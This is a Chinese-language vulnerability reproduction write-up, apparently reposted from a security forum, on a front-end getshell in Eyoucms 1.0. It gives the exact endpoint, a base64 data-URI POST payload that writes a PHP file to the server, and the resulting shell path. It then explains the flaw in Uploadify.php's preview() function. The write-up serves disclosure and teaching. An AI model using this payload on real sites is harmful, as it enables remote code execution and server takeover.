 # Eyoucms 1.0 前台getshell

> 原文：[https://www.zhihuifly.com/t/topic/2916](https://www.zhihuifly.com/t/topic/2916)

# Eyoucms 1.0 前台getshell

## 一、漏洞简介

官网：http://www.eyoucms.com/download/
Cms下载地址：http://www.eyoucms.com/eyoucms1.0.zip

## 二、漏洞影响

## 三、复现过程

老样子：先讲如何利用

```
url: http://test.eyoucms1.0.com/index.php/api/Uploadify/preview `构造: <?php phpinfo;` 
```

![image](img/7978445a5d92b706f233d6fd3375a930.png)

```
post: data:image/php;base64,PD9waHAgcGhwaW5mbygpOw== 
```

![image](img/3a80a5dd2a7640989aa2d16c0aee02ea.png)

Shell: http://test.eyoucms1.0.com/preview/ae85d74a721b0b8bd247bc31207a12e2.php

![image](img/0785e398fa077c95cb0cb3aa66611ad5.png)

![image](img/75cb99cdf9868ad96f977648b17b3cb9.png)

### 原理分析

漏洞文件： eyoucms1.0\application\api\controller\Uploadify.php
漏洞函数：preview()

![image](img/70c7a79ef0f1dbac9771e402db57c791.png)

![image](img/3e8f9a403b741846aba94538f7b11fc3.png)

这里我将每行有意义的代码都解释了一下帮助读者进行查看。

而我刚开始时也思考了一下，这会不会是作者故意搞的后门？
带着这个问题我去问了一下加的php群的一些程序员 他们很惊讶的 表示data:image/ 居然还可以不是图片？
好吧。到这里我就基本明白为什么这个漏洞会出现了，估计作者以为data:image/ 只能是图片。

## 四、参考链接

> https://www.yuque.com/pmiaowu/bfgkkh/kbh8mh